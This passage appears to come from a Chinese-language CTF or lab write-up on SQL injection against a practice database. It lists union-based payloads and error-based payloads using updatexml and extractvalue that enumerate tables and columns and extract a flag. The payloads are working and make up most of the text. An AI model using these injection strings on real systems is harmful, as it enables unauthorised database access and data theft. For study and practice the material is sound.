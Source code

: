-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'#

![image-20220609083448877](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083448877.png)

**8.获取数据**

-1' union select 1,group_concat(flag) from sqli.flag#

![image-20220609083624560](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083624560.png)



### **报错注入

#### 方法一：updatexml

**利用updatexml来xpath报错。**

1 and (select updatexml(1, (concat (0x7e, (select database()))),1)) 

![image-20220609094015870](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094015870.png)

1 and (select updatexml(1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='sqli'))),1))  

![image-20220609094048157](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094048157.png)

1 and (select updatexml(1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where table_name='flag'))),1)) 

![image-20220609094108544](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094108544.png)

1 and (select updatexml(1, concat(0x7e, (select flag from flag)), 1))

![image-20220609094204065](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094204065.png)

#### 方法二：extractvalue

**利用updatexml来xpath报错。**

1 and (select extractvalue(1, concat(0x7e, (select database()))))

![image-20220609094434010](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094434010.png)

1 and (select extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema= 'sqli'))))

![image-20220609094525541](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094525541.png)

1 and (select extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name= 'flag'))))

![image-20220609094655426](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094655426.png)

1 and (select extractvalue(1, concat(0x7e, (select flag from flag))))
